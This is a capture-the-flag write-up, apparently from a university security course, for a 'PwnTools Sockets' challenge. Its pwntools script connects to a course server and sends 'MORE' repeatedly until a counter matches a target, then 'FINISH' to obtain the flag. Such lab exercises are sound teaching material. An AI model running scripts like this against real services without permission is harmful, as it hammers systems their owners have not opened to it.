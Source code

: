 # Challenge `PwnTools Sockets` Writeup

- Vulnerability:
    - Endpoint is vulnerable to brute-force attack and cookie poisoning

- Where:
    - `MORE\n` endpoint

- Impact:
    - Allows to find the server guess by repeated messages

## Steps to reproduce

### Step 1: Establish connection with remote server

```python
from pwn import *

SERVER = "mustard.stt.rnl.tecnico.ulisboa.pt"
PORT = 23055
s = remote(SERVER, PORT, timeout=9999)
```

### Step 2: Get target value and current value
We need to read the the servers message until `get to ` is found to get the target value. Then we need to read until `CURRENT = ` is found to get the current value.

```python
s.recvuntil(b'get to ')
target = s.recvuntil(b'.')[:-1].decode()

s.recvuntil(b'CURRENT = ')
curr = s.recvuntil(b'.')[:-1].decode()
```
### Step 3: Send `MORE\n` messages until the target value is reached
```python
while curr != target:
    s.sendline('MORE'.encode('utf-8'))
    s.recvuntil(b'CURRENT = ')
    curr = s.recvuntil(b'.')[:-1].decode()
```

### Step 4: Get flag
Once the target value is reached, send message `FINISH\n` to get the flag.

```python
s.sendline('FINISH'.encode('utf-8'))
s.recvuntil(b'GREAT JOB: ')
flag = s.recvuntil(b'\n')[:-1].decode()
log.info("Flag: " + flag)
```

## Implementation

The full implementation can be found [here](pwntools-sockets.py).